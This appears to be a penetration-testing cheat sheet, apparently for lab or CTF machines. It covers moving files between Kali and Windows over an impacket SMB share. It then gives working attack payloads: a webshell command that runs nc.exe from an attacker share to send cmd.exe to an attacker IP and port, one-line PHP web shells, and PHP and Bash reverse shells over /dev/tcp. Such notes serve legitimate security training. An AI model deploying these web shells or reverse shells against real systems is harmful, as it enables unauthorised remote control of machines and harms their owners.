 ```

### Between Kali VM and Windows VM
On kali box: ```sudo impacket-smbserver -smb2support SHARENAME $(pwd)```\
On Windows box: Run ```\\Kali's IP (Not VPN)\SHARENAME```\

### From Windows to local Kali machine using impacket-smbserver
On local Kali machine:
```
sudo impacket-smbserver ShareName $(pwd)
```
Connect to newly created Share from Remote Windows target:
```
net use \\$LHOST\ShareName
```
Once connected to Share
```
copy $FILEPATH\file \\$LOST\ShareName
```
File should be copied from remote Windows target to local Kali machine at $(pwd)

### From local Kali to remote Windows target using impacket-smbserver
On local Kali machine:
```
sudo impacket-smbserver ShareName $(pwd)
```
Copy files from local Kali machine to remote Windows target
```
robocopy \\<IP>\$SHARENAME\$FILENAME .
```


Trick: if accquired a webshell, aka have code exec, however, powershell commands don't seem to work and the target machine doesn't have nc. You can upload nc.exe via creating a SMB Share.\
On local kali machine, create an SMB share pointing to current directory:
```
sudo impacket-smbserver ShareName $(pwd)
```

Connect and run the executable via the newly create SMB Share:
```
....php?cmd=\\$LHOST\$SHARENAME\nc.exe -e cmd.exe $LHOST $LPORT
....php?cmd=\\10.10.14.67\Jake\nc.exe -e cmd.exe 10.10.14.67 9000
```


## Simple PHP web shell
```
<?php system($_REQUEST['cmd']); ?>
xxx.php?cmd=whoami
```
or
```
<?php echo shell_exec($_REQUEST["cmd"]); ?>
```

##  Reverse Shell
### PHP
```
<?php
exec("/bin/bash -c '/bin/bash -i >& /dev/tcp/$LHOST/$LPORT 0>&1'");
```

### Bash
```
/bin/bash -c '/bin/bash -i >& /dev/tcp/$LHOST/$LPORT 0>&1'
```

```